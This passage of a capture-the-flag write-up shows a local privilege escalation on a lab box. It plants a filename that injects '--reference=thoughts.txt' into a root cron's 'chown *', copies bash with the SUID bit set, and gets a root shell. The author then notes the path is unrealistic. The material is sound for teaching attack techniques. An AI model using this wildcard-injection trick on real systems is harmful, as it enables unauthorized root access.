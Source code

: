 The immutable `thoughts.txt` file and the strange resetting of SUID in the automation Python together provide an alternative way to exploit the wildcard vulnerability.

Instead of getting an important file that should be owned by root to be owned by sec, I’ll create a SUID binary and get the cron to have it owned by root. I’ll drop a copy of `bash` into `/usr/src`, set it to SUID, and create a file so that `chown` will reference `thought.txt`:

```

[sec@shrek src]$ touch -- --reference=thoughts.txt
[sec@shrek src]$ cp /bin/bash 0xdf
[sec@shrek src]$ chmod +s 0xdf 
[sec@shrek src]$ ls -l
total 816
-rwsr-sr-x 1 sec  users 828320 Jul 17 11:55  0xdf
-rw-r--r-- 1 sec  users      0 Jul 17 11:55 '--reference=thoughts.txt'
-rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt

```

When the cron runs, `0xdf` is now owned by root, and still SUID:

```

[sec@shrek src]$ ls -l
total 816
-rwsr-sr-x 1 root root  828320 Jul 17 11:55  0xdf
-rw-r--r-- 1 sec  users      0 Jul 17 11:55 '--reference=thoughts.txt'
-rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt

```

And it will give me a root shell:

```

[sec@shrek src]$ ./0xdf -p
0xdf-4.4# 

```

I don’t like this path because it is not realistic. It makes sense that there are places in the real world running `chown nobody:nobdy *` on directories, and that enables this wildcard attack. But it’s incredibly unlikely that any cron would then go back and re-add the SUID bit on files that had it. That is kind of the opposite of why you would be changing the owner. And this attack doesn’t work without that bit in the script. To demonstrate, I’ll clear it out and set it up again:

```

[sec@shrek src]$ cp /bin/bash 0xdf
[sec@shrek src]$ chmod +s 0xdf 
[sec@shrek src]$ touch -- --reference=thoughts.txt
[sec@shrek src]$ ls -l
total 816
-rwsr-sr-x 1 sec  users 828320 Jul 17 12:12  0xdf
-rw-r--r-- 1 sec  users      0 Jul 17 12:12 '--reference=thoughts.txt'
-rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt

```
